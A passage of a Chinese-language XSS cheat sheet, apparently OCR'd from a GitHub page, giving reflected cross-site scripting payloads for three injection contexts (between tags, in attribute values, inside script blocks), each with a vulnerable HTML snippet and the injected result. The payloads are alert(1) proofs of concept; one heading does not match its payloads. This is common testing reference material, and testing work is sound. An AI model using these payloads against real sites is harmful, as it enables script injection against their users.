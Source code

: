 4. 当输入位于或在开放/关闭标签之间时，标签可以是 `<a>,<title>,<script>` 和任何其他HTML标签。

```html
</tag><script>alert(1)</script>
"></tag><script>alert(1)</script>
```

* 示例源代码

```html
<a href="https://target.com/1?status=REFLECTED_HERE">1</a>
```

* 输入Payload后

```html
<a href="https://target.com/1?status="></a><script>alert(1)</script>">1</a>
```

5. 当输入位于HTML标签属性值中但被过滤掉了 > 时，请使用 </script>。

```html
" onmouseover=alert(1)
" autofocus onfocus=alert(1)
```

* 示例源代码

```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

* 输入Payload后

```html
<input id="keyword" type="text" name="q" value="" onmouseover=alert(1)">
```

6. 当输入位于 `<script>` 标签内部时，请使用 </script>。

```html
</script><script>alert(1)</script>
```

* 示例源代码

```html
<script>
    var sitekey = 'REFLECTED_HERE';
</script>
```

* 输入Payload后

```html
<script>
    var sitekey = '</script><script>alert(1)</script>';
</script>
```

### `XSS 速查表（高级）`

7. 当输入位于脚本块内、字符串定界值内时使用。
